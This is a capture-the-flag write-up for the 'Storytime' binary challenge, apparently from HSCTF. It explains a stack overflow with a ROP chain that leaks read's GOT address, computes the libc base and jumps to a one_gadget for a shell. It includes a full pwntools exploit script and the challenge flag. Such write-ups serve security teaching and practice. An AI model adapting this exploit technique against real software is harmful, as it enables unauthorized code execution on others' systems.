

# Storytime (BINARY)



## Initial Thoughts

* Strings shows some interesting strings that are not shown with simple input into the program. Diving into the symbols
* Symbols show beginning, middle, climax and end functions. Appears to be more rop chaining.

# Walkthrough

I did not end up figuring this one out by the challenge end but I understand now its another overflow where we need to leak an address in order to find libc and call system

Some of the other binary challenges use libc6_2.23-0ubuntu11_amd64.so so I tried it with this one and it worked fine.

Lets setup the elf and libc using pwntools and get the offsets and symbols we need.


```python
p = remote('pwn.hsctf.com', 3333)
e = ELF('./storytime')
libc = ELF('./libc6_2.23-0ubuntu11_amd64.so')

read_got = e.got['read']
read_offset = libc.symbols['read']
```

I used __ROPgadget --binary ./storytime__ in order to find a gadget we can use to write the address of read in the Global Offset Table. We can use __0x0000000000400701 : pop rsi ; pop r15 ; ret__ So the idea is to fill the buffer, call the pop rsi and fill it with the read_got function. Fill the r15 with junk then call the climax function so we have a place to overflow then fill the last register with junk. I also used __one_gadget libc6_2.23-0ubuntu11_amd64.so__ in order to find the address that will allow us to gain a shell in the last payload

```python
pop_rsi = 0x0000000000400701 # pop rsi ; pop r15 ; ret
padding = 'A'*56
climax = e.symbols['climax']
one_gadget = 0x4526a
payload = ""
payload+= padding
payload+= p64(pop_rsi)
payload+= p64(read_got)
payload+= p64(0x3030303030303030)
payload+= p64(0x0000000000400601)
payload+= p64(0x3030303030303030)
payload+= p64(climax)
```

Lastly is to send our payload, calculate the libc base and add it to our one_gadget so we can gain a shell with our second payload. See below for the final code.

<details>
	<summary>Final Code</summary>

```python
#!/usr/bin/env python

from pwn import *

p = remote('pwn.hsctf.com', 3333)
e = ELF('./storytime')
#p = process(e.path)
libc = ELF('./libc6_2.23-0ubuntu11_amd64.so')

read_got = e.got['read']
read_offset = libc.symbols['read']
pop_rsi = 0x0000000000400701 # pop rsi ; pop r15 ; ret
padding = 'A'*56
climax = e.symbols['climax']
one_gadget = 0x4526a

payload = ""
payload+= padding
payload+= p64(pop_rsi)
payload+= p64(read_got)
payload+= p64(0x3030303030303030)
payload+= p64(0x0000000000400601)
payload+= p64(0x3030303030303030)
payload+= p64(climax)

p.sendline(payload)

print p.recvuntil('Tell me a story: \n')
leak = u64(p.recv(8))

print 'Leak: '+hex(leak)

libc = leak - read_offset
print 'libc: '+hex(libc)

one_shot = one_gadget + libc
payload = ""
payload+= 'A'*56
payload+= p64(one_shot)

p.sendline(payload)
p.sendline('cat flag')
p.interactive()
# payload = ""
# payload+= padding
# payload+= p64(one_shot)
# p.sendline(payload)
# p.interactive()
```
</details>

<details>
	<summary>Flag</summary>

hsctf{th4nk7_f0r_th3_g00d_st0ry_yay-314879357}
</details>